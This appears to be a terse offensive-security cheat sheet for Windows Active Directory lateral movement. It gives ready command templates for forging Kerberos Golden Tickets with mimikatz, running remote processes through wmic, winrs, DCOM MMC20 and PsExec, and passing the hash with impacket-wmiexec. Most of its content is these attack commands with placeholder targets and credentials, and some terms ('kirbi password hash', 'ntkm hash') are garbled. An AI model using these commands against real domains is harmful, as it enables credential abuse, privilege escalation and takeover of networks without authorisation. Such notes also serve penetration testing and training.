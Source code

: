 #### Golden Ticket

if we get krbtgt hash we can create any ticket we want 
need two things:
- kirbi password hash
- Domain SID

tools:
- mimikatz
```
kerberos::golden /user:<target_user> /domain:<domain> /sid:<domain SID> /krbtgt:<kirbi hash> /ptt
```

#### WMI, WinRM DCOM

run process on a remote machine

tools:
- wmic
```
wmic /node:<IP> /user:<user> /password:<pass> process call create "<exe>"
```
- Invoke-CimMethod
- winrs
```
winrs -r:<host> -u:<user> -p:<pass>  "<command to run>"
```
- New-PSSession
- DCOM - ExecuteShellCommand
```
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","<target IP>"))

$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"<command>","7")
```



#### PsExec

run process on remote machine
can use to leverage to system
```
./PsExec64.exe -i  \\<host> -u <domain\user> -p <pass> <exe>
```

#### Pass the Hash

authenticate with the user hash

tools:
- [_PsExec_](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/) from Metasploit
- [_Passing-the-hash toolkit_](https://github.com/byt3bl33d3r/pth-toolkit)
- [_Impacket_](https://github.com/CoreSecurity/impacket/blob/master/examples/smbclient.py)
```
/usr/bin/impacket-wmiexec -hashes :<ntkm hash> <user>@<IP>
```
